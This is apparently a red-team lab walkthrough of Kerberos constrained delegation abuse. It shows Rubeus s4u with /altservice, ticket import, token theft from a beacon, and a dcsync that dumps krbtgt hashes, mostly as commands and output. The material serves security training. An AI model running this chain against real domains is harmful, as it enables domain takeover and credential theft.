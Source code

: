 The cifs service can be leveraged for lateral movement, but what if port 445 was unavailable or we wanted an option other then PsExec?  It was discovered by [Alberto Solino](https://twitter.com/agsolino) that the service name is [not protected](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/) in the Kerberos structure, so we can actually request a TGS for any service run by the original account.  Since the cifs service is run by the computer account by default, it means we can request a TGS for any other service also run by the computer account.

This can be abused using `/altservice` flag in Rubeus.  In this example, we're using the same TGT for SQL-2 to request a TGS for LDAP.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /altservice:ldap /user:sql-2$ /ticket:doIFpD[...]MuSU8= /nowrap

[*] Action: S4U

[*] Building S4U2self request for: 'SQL-2$@DEV.CYBERBOTIC.IO'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.122.10)
[*] Sending S4U2self request to 10.10.122.10:88
[+] S4U2self success!
[*] Got a TGS for 'nlamb' to 'SQL-2$@DEV.CYBERBOTIC.IO'
[*] base64(ticket.kirbi):

      doIFnD[...]FMLTIk

[*] Impersonating user 'nlamb' to target SPN 'cifs/dc-2.dev.cyberbotic.io'
[*]   Final ticket will be for the alternate service 'ldap'
[*] Building S4U2proxy request for service: 'cifs/dc-2.dev.cyberbotic.io'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.122.10)
[*] Sending S4U2proxy request to domain controller 10.10.122.10:88
[+] S4U2proxy success!
[*] Substituting alternative service name 'ldap'
[*] base64(ticket.kirbi) for SPN 'ldap/dc-2.dev.cyberbotic.io':

      doIGaD[...]ljLmlv
			
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGaD[...]ljLmlv
	
[*] Using DEV\nlamb:FakePass

[*] Showing process : False
[*] Username        : nlamb
[*] Domain          : DEV
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2580
[+] Ticket successfully imported!
[+] LUID            : 0x4b328e
			
beacon> steal_token 2580
```
  

Against a domain controller, the LDAP service allows us to perform a dcsync.
```
beacon> dcsync dev.cyberbotic.io DEV\krbtgt

[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 8/15/2022 4:01:04 PM
Object Security ID   : S-1-5-21-569305411-121244042-2357301523-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9fb924c244ad44e934c390dc17e02c3d
    ntlm- 0: 9fb924c244ad44e934c390dc17e02c3d
    lm  - 0: 207d5e08551c51892309c0cf652c353b

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e
      aes128_hmac       (4096) : 6fb62ed56c7de778ca5e4fe6da6d3aca
      des_cbc_md5       (4096) : 629189372a372fda
```